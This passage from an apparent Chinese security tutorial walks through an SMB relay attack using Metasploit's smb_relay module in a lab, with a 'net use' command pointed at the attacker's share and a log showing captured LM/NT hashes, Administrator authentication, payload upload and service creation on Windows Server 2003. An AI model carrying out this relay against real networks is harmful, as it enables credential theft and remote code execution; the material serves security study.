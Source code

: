 这里使用 MSF 框架中的 smb\_relay 模块来实施 SMB 中继攻击  
Step 1：设置载荷  
[![](assets/1701222524-f0b5e3cbacab48a51d953996bb40d393.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144305-627329d8-8db9-1.png)  
Step 2：执行载荷  
[![](assets/1701222524-63db44f89642d6d00e20cbdaee3b6318.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144316-68fb9c2c-8db9-1.png)  
Step 3：在 window 7 中上执行以下命令来访问恶意 SMB 服务

```bash
net use \\192.168.188.129\c$
```

Step 4：由于 Metasploit 的 SMBRelay 只支持 NTLM v1，所以在攻击一些机器时会出现"Failed to authenticate"的情况，但是这种思路是正确的，所以综合来看这种攻击方法在实战中也不是那么被看好  
[![](assets/1701222524-1076e75ae08efec47591aa39378ee50a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144339-766a01dc-8db9-1.png)  
下面是一个 Windows Server 2003 中成功的示例：

```bash
msf exploit(windows/smb/smb_relay) > 
[*] Received 192.168.188.128:1032 X-90E984B4C76D4\Administrator LMHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 NTHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 OS:Windows Server 2003 R2 3790 Service Pack 2 LM:
[*] Authenticating to 192.168.188.128 as X-90E984B4C76D4\Administrator...
[*] AUTHENTICATED as X-90E984B4C76D4\Administrator...
[*] Connecting to the defined share...
[*] Regenerating the payload...
[*] Uploading payload...
[*] Created \hGaRjHmf.exe...
[*] Connecting to the Service Control Manager...
[*] Obtaining a service manager handle...
[*] Creating a new service...
```